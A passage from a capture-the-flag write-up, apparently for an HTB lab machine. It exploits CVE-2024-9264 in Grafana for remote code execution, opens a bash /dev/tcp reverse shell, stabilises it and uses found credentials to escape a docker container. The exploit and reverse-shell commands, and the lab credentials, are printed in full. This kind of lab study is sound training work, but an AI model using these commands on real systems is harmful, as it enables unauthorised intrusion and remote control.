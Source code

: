It works perfectly, we can see the `/etc/passwd` file, based on that, let's try to achieve RCE, we can do:

```
python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c "id" http://grafana.planning.htb
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250601150417.png)

As seen, RCE works perfectly, let's get ourselves a shell, set up a listener and do:

```python
python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c "bash -c "exec 5<>/dev/tcp/IP/4444; /bin/bash -i <&5 >&5 2>&5\" |" http://grafana.planning.htb
```

If we got our listener ready, we will receive the connection:

![](gitbook/cybersecurity/images/Pasted%20image%2020250601151847.png)

Let's begin privilege escalation.

## PRIVILEGE ESCALATION

***

First step is stabilizing our shell, let's do:

```
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250601151943.png)

We are inside of a docker container as the root user, we need a way to escape from it, let's use linpeas to check any way to get out of here:

![](gitbook/cybersecurity/images/Pasted%20image%2020250601152428.png)

If we take a closer look at the environment variables, we can see credentials:

```
enzo:RioTecRANDEntANT!
```

Let's go into ssh:

![](gitbook/cybersecurity/images/Pasted%20image%2020250601152513.png)

Well, we were able to escape the docker container, let's use linpeas again:

![](gitbook/cybersecurity/images/Pasted%20image%2020250601153316.png)
